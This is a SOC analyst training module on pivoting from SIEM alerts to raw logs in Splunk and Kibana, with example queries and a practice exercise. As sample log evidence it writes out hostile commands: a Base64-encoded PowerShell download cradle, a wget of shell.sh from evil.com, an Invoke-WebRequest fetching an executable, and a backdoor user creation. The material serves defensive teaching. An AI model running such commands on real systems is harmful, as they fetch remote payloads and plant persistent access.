



# Pivoting from an Alert to Raw Logs

## TCM Exam Objectives

By mastering this module, you will be prepared to:

1. **Deconstruct** a SIEM alert to extract primary pivot fields (IP, user, host, EventID)
2. **Apply** the five-step pivoting methodology from alert to root cause
3. **Execute** pivot queries in Splunk using SPL across multiple indexes
4. **Execute** pivot queries in Elastic/Kibana using KQL and the JSON raw document view
5. **Chain-react** pivot on new artifacts discovered during raw log inspection
6. **Open** a broad time window (±1 hour) to capture reconnaissance and follow-on activity
7. **Validate** or refute the alert hypothesis using raw log evidence
8. **Document** the complete pivot chain in the PSAA investigation report
9. **Identify** parent process relationships by pivoting on process.pid
10. **Trace** C2 communication from alert through firewall, proxy, and endpoint logs

Pivoting from an alert to raw logs is the critical bridge between automated detection and human investigation. An alert is a signpost pointing to something anomalous, but the raw log contains the irrefutable evidence. In the PSAA exam, your ability to pivot from a summarized alert to the detailed, timestamped raw events directly determines whether you build your report on assumptions or facts.

- The anatomy of an alert and pivot fields
- Five-step pivoting methodology
- Pivoting in Splunk (SPL) and Elastic (KQL)
- Documenting the pivot chain in the exam report



📌 **Exam Tip:** An alert is a hypothesis, not a fact. The alert says "Suspicious PowerShell Execution" — but the raw log reveals whether it was a real download cradle (`Invoke-WebRequest`) or a legitimate admin script. Always pivot to raw logs before drawing conclusions in the PSAA.

## The Anatomy of an Alert

An alert is almost always a summary - an aggregated view or a single highlighted event stripped of context. Your job is to pivot behind that alert and grab the raw logs 【turn0search1】【turn0search3】.

| Alert Level | Raw Log Level |
|---|---|
| "Suspicious PowerShell Execution Detected on Host SRV-01" | `powershell.exe -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AbQBhAGwAaQBjAGkAbwB1AHMALgBjAG8AbQAvAHAAYQB5AGwAbwBhAGQAJwApAA==` |

The alert gives a hint. The raw log provides the Base64-encoded command revealing the malicious download cradle. That is evidence.

### Universal Pivot Fields

| Field | Value Example | What It Unlocks |
|---|---|---|
| `source.ip` / `src_ip` | `203.0.113.15` | All raw network, auth, and endpoint logs from that IP |
| `host.name` / `hostname` | `SRV-01.corp.local` | All raw system and security logs for that machine |
| `user.name` / `user` | `jsmith` | All raw auth, process, and file logs for that account |
| `event.code` / `EventID` | `4625` | Other instances of the same activity |
| `process.pid` / `process.ppid` | `0x1a4` | Process lineage from execution to network connections |
| `file.hash.sha256` | `e3b0c44...` | File creation and execution events across hosts |

📌 **Exam Tip:** When you execute the first pivot, do not filter by event code yet. Broadly search the pivot field (e.g., `src_ip`) across all indexes first. The raw results may reveal unexpected event types — a network connection, a process creation, a file write — that tell the full story. Narrowing too early misses critical evidence.

## The Five-Step Pivoting Methodology

### Step 1: Deconstruct the Alert

Read the alert title, description, severity, and all provided fields. Identify 2-3 primary pivot fields (IP, user, host). Note the exact timestamp - this is your time anchor.

### Step 2: Open a Broad Time Window

Set the time picker to at least one hour before and after the alert trigger time. Attacks rarely happen in a single second - you need to see reconnaissance, staging, and follow-on actions.

### Step 3: Execute the First Pivot for Raw Events

Use your primary pivot field across all relevant indexes. Do not filter by event code yet. Scan the results for anomalies: unusual event IDs, strange command lines, connections to rare ports.

### Step 4: Chain-React Pivot Based on Raw Findings

Pivot on new information found in raw logs:
- Raw log shows process: `cmd.exe /c whoami`. Pivot on `process.pid` to find its parent.
- Raw log shows destination IP: `dst_ip: 198.51.100.45`. Pivot on that IP in firewall and proxy logs.
- Raw log shows created user: `net user backdoor Password123! /add`. Pivot on that username.

### Step 5: Validate or Refute Your Hypothesis

The alert's description is a hypothesis. Raw logs are the test. Did the raw logs confirm the story, or do they tell a different one? A true analyst identifies and documents false positives with the same rigor as real incidents.

## Pivoting in Splunk (SPL)

1. **Start from the Alert:** Click on a field value (e.g., `src_ip`) and select "New search with this value."
2. **Build Your Raw Log Search:**
```spl
index=* src_ip="10.1.1.45"
```
3. **Broaden the source:**
```spl
(index=windows OR index=sysmon OR index=firewall) src_ip="10.1.1.45"
```
4. **Look at Raw Events:** Switch to List or Raw view to see the full, unformatted log line.

**Example Pivot Sequence:**
```
// Initial Alert: ssh brute force on web-01 from 203.0.113.5
index=linux_secure src_ip="203.0.113.5"
// Reveals 500 failed auth logs. Pivot on first success.
index=linux_secure src_ip="203.0.113.5" "Accepted password"
// Returns one raw log showing successful login. Pivot on user.
index=linux_secure user="root" host="web-01"
// Shows raw command line: "sudo wget evil.com/shell.sh"
```

## Pivoting in Elastic / Kibana (KQL)

1. **Receive Alert:** Note the pivot field and value.
2. **Navigate to Discover:** Select a broad index pattern like `logs-*` or `security-*`.
3. **Enter KQL Query:**
```kusto
source.ip : "10.1.1.45"
```
4. **Refine with Filters:** Add filter for `event.code` or `event.dataset`.
5. **Examine Raw Document:** Expand an event and click the JSON tab. The raw JSON often contains the original `message` field before any parsing.



## Documenting the Pivot Chain in Your Report

Your report must show *how* you got from A to B.

**Example Documentation:**
> "The investigation began with Alert #1034 ('Suspicious Outbound RDP Connection'). The alert provided pivot field `src_ip: 10.0.1.101`. Using Splunk, I executed `index=* src_ip="10.0.1.101"` across all log sources for a +/-2-hour window. This revealed a raw Windows Security Event ID 4624 (Logon Type 10) from external IP `198.51.100.77` just 90 seconds prior. Pivoting on that external IP in firewall logs (`index=firewall src_ip="198.51.100.77"`) showed a successful VPN authentication. Filtering the initial 4624 event for `TargetUserName` provided the compromised user account `jdoe`."

<details>
<summary>Practical Exercise: From Alert to Root Cause</summary>

**Alert:** Outbound Connection to Known C2. Severity: Critical. Time: 15:22:34 UTC. Source Host: DESKTOP-CLIENT1. Destination IP: 103.224.182.250. Destination Port: 8080.

1. **Deconstruct:** Pivot fields: `host.name: DESKTOP-CLIENT1`, `destination.ip: 103.224.182.250`. Anchor time: 15:22.
2. **Window:** Set search from 14:00 to 16:00.
3. **First Pivot:** Search `host.name:"DESKTOP-CLIENT1"` across all indexes. Find Sysmon EID 3 (network connection) and Sysmon EID 1 (process creation) at 15:21:10. Raw command line: `"C:\Users\Public\mydoc.exe"`. PID: `0x1a4`.
4. **Chain Pivot:** Search `process.pid: 0x1a4`. Parent process: `powershell.exe -Command "Invoke-WebRequest -Uri http://evil.example.com/mydoc.exe -OutFile C:\Users\Public\mydoc.exe"`. Root cause identified: PowerShell download cradle.
5. **Validate:** True positive. Raw logs proved C2 connection was the result of a downloaded executable from a malicious PowerShell command.
</details>



## Recap

Pivoting from alerts to raw logs is the analytical engine that separates ticket-closers from security investigators. The five-step methodology (deconstruct, broaden time window, first pivot, chain-react, validate) ensures thoroughness. Splunk enables click-to-pivot on field values with broad index searches. Kibana requires switching to broad index patterns and using the JSON tab for raw evidence. Every step of the pivot chain must be documented in the report, explicitly stating what field was pivoted on and what evidence was found.
